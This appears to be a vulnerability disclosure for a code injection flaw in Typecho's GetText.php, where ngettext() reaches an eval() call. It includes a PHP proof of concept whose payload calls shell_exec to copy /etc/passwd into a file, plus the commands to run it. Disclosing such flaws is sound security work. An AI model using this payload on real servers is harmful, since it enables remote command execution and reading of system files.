 
The select_string() function in GetText.php (typecho/var/Typecho/I18n/GetText.php) is vulnerable to Code Injection. The select_string() function is a private function although it can be accessed via calling the public function `ngettext()` which calls the vulnerable function on line 357. By giving a maliciously crafted payload through the "$number" argument in the ngettext() function, it gets executed via eval() which can be used to execute system commands leading to an RCE (`shell_exec("touch poc.txt");`).

## Description
The function select_string() accepts an argument "n" which is then passed to the PHP's eval() function. The eval() function evaluates a string as PHP code, thus we can craft a malicious PHP code to pass as the argument "n" to the select_string() function which can lead to a Code Injection Vulnerability.

## Proof of Concept (Credit: [mufeedvh](https://app.huntr.dev/users/mufeedvh))
```
<?php

    // Typecho Code Injection PoC (@mufeedvh)

    include 'GetText.php';

    $typeEchoClass = new Typecho_I18n_GetText("poc.php");
    $noice = 69;
    $refer = &$noice;
    $typeEchoClass->ngettext("single", "plural", "shell_exec('cat /etc/passwd > poc.txt')", $refer);

?>
```

Place this file inside the "typecho/var/Typecho/I18n/" path (where the GetText.php file is) and execute it:

    $ php poc.php
    $ cat poc.txt

Now you will be able to see the contents of "/etc/passwd" inside the file created by the exploit.

## References
- [GitHub Issue](https://github.com/typecho/typecho/issues/936)